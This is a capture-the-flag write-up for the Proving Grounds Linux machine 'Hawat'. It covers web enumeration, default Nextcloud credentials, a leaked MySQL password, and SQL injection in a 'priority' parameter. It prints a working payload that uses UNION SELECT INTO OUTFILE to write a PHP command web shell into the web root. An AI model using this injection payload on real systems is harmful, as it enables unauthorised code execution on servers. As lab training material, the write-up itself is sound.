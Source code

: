 ```yaml
---
title: "Hawat"
date: 2025-06-20
categories:
  - Proving Grounds
  - Linux
tags:
  - Proving Grounds
  - Linux
---
```


# Hawat 🔹
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250325225524.png)

Port `17445` shows a web page of an issue tracker.

![](../assets/Pasted%20image%2020250325225809.png)

We can register users and log in.

![](../assets/Pasted%20image%2020250325225944.png)

Port `30455` shows us a web page with no links.

![](../assets/Pasted%20image%2020250325230139.png)

Using `feroxbuster`, we find a `nextcloud` instance.

![](../assets/Pasted%20image%2020250325231552.png)

![](../assets/Pasted%20image%2020250325231604.png)

Trying `admin:admin` works.

![](../assets/Pasted%20image%2020250325232402.png)

We find the issue tracker project in here.

![](../assets/Pasted%20image%2020250325235405.png)

Download and explore it, and we have the `mysql` password.

![](../assets/Pasted%20image%2020250325235439.png)

`issue_user:ManagementInsideOld797`

We can see that the `priority` parameter is injectable in the `checkByPriority` function.

![](../assets/Pasted%20image%2020250327094631.png)

So going to the web...

![](../assets/Pasted%20image%2020250327094659.png)

GET is not allowed, so POST? Capture the request with `caido`.

Changing GET to POST.

![](../assets/Pasted%20image%2020250327101541.png)

And adding the `priority` parameter, we got to `200`.

![](../assets/Pasted%20image%2020250327101556.png)

We saw with `feroxbuster` that there is a `phpinfo` that shows that the root path is `/srv/http`, so we can inject a webshell.

![](../assets/Pasted%20image%2020250327104552.png)

We can inject a web shell:

```shell
' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

![](../assets/Pasted%20image%2020250327121912.png)

Encode with [https://www.url-encode-decode.com/](https://www.url-encode-decode.com/)

Accessing the path...

![](../assets/Pasted%20image%2020250327121932.png)

## Post Exploitation

Get the flag.

![](../assets/Pasted%20image%2020250327122007.png)
